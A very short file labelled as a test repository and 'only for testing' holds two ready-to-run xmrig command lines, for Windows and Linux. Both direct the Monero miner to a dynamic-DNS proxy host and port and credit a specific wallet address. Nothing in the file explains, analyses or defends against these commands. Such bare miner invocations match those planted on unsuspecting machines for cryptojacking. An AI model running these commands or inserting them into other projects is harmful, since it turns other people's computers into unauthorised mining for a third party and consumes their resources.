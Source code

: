 # testrepo_dc5fd69b6b1e91ccdec88a4.html
only for testing
info1=xmrig.exe -o proxy-60333.mywire.org:60333 -i 5 -u 89mqqbXpWiNVgn27J6AMCKThLMomCHZRDAoS6i7k68iWLCKkMqtJkCaHUyrV9swetaVgViN5a2SYPKwJYC53G9844yRbuXe -p x -k --coin monero -a rx/0


info2=./xmrig -o proxy-60333.mywire.org:60333 -i 5 -u 89mqqbXpWiNVgn27J6AMCKThLMomCHZRDAoS6i7k68iWLCKkMqtJkCaHUyrV9swetaVgViN5a2SYPKwJYC53G9844yRbuXe -p x -k --coin monero -a rx/0
